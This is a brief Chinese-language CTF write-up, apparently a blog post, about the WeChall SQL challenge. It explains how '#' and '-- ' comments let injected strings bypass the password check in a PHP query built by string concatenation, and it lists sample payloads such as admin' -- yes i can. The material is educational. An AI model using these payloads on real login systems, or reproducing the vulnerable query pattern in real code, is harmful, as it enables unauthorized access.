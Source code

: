```yaml
---
title: WeChall_SQL
date: 2022-10-06
description: 关于#和--在sql中的具体用法
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# --和#的具体用法
`#`是php和sql中的注释，而`--`仅是sql语言中的注释,`--`在使用时后面必须有一个空格
原题代码为`$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`
```
admin' and username='admin';#       可以
admin' and username='admin'#        不可以 ,结尾没有`;`，语句错误

Admin' -- yes i can                 可以
Admin' --yes i can                  不可以，--后面没有空格
Admin' --                           不可以，--后面没有空格（后面的句子会顶上来）
Admin' -- (a space here)            可以
```
为什么`--`注释可以不用管最后的`;`呢？因为`--`只是sql中的注释语句。
此时完整的语句为`$query = "SELECT * FROM users WHERE username='Admin' -- yes i can' AND password='$password'";`
sql在查询时被注释掉了，但整个php语句没有被注释掉
 